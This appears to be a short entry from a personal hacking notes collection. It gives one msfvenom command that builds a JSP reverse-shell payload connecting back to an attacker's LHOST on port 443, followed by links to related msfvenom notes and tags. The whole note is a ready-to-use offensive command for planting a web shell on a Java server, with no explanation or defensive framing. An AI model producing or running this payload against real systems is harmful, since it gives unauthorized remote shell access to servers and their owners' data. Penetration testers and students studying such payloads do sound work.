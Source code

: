 # MSFVENOM Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

` zet/20221003150760/README.md `

# Related

- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- [20221003150759](/zet/20221003150759/README.md) MSFVENOM Java Server Pages (.jsp) As .war
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
